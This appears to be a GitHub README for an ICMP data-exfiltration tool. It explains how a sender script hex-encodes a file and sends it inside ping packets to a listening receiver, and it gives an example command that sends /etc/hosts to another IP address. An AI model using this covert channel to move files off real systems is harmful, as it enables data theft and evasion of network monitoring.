 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```
or
```bash 

sudo apt install python3-scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display and also in the same time the script
will save the output to indicate file.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py <Interface-Name> <File-name to save data>                         
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

┃  [!] Usage ../ICMP-Data-Exfiltration/icmp_sendData.py <IP-Address> <File-Name to send over the network>
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0 data.txt
                                                                                                                                                                                      
┃  [*]  Listening for any incoming connections...                                                                                                                                         
                                                                                                                                                                                          
┃  [*]  Saving data to file 

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

┃  [*]  Hosts active,  Linux system

┃  [*]  Trying to send file..

100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 720000/720000 [00:00<00:00, 4097689.59it/s]

┃  [*]  File sent successfully
```

Then from another host we will run the "icmp_sendData.py" script by providing the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

## Test

https://user-images.githubusercontent.com/74554439/158271576-cd6a262e-fb1e-41b7-afbd-19e7f231143a.mp4

